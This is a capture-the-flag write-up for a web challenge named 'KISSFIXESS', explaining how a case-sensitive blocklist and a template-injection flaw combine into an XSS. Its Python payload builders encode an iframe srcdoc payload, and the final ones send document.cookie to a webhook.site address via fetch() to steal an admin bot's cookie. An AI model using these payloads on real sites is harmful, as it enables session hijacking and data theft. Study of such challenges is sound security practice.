 # 🏷️ KISSFIXESS

**Category:** Web  
**Description:**  
> Kiss My Fixes.

This is the important things from the app.py
```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
```

As we can see the banned list check doesn't check for capital case letters.

```py
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)
```
<br />
So we can enter "Src" and it will be fine.
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/1.png">
<br />
Now we need to think about getting a xss using open and closing tag but it's blocked but we have an ssti here in render_page function 
<br />
```py
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")
```
So we can access anything from banned list which contain our needed string using the ssti we have the open and closing tag for xss in banned here, so to get `<` for example
we can do `${banned[1]}` this will get us `<`
Let's try get `<` : 

<img>

As we can see it worked now can get a working payload like `<img src=x onerror=alert()>`

I replaced s with S and l with L 
```${banned[1]}img Src=x onerror=aLert`1`${banned[2]}```

<img>

But if we want to insert the webhook it will contain a lot of things that blocked but we can use encoding since we have `${banned[0]}` as `&` we can use html encoding for instance `${banned[0]}#x3d` get converted to `=` 

Let's make a script that will help us convert everything 

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)
```

will gave us this 

```
${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x2f${banned[0]}#x73${banned[0]}#x72${banned[0]}#x63${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x3e
```

But when we try it it's rendered as text we can use iframe to load it as html

<img>

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

This is the payload to get alert(1)

```
${banned[1]}iframe Srcdoc='${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x20${banned[0]}#x53${banned[0]}#x52${banned[0]}#x43${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x22${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x22${banned[0]}#x3e' ${banned[1]}/iframe${banned[2]}
```

<img>

Let's try call our webhook:

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883/?q=\'+document.cookie)"/>'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

<img>

Got a callback, Let's report to the bot:

<img>

We didn't get callback, looking at the bot, Found this option that will disable image loading:

```py
chrome_opts.add_argument("--blink-settings=imagesEnabled=false")
```
Let's try another payload that doesn't contain an image

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<audio SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883?q=\'+document.cookie)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' /{td}{nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

Got it:

<img>
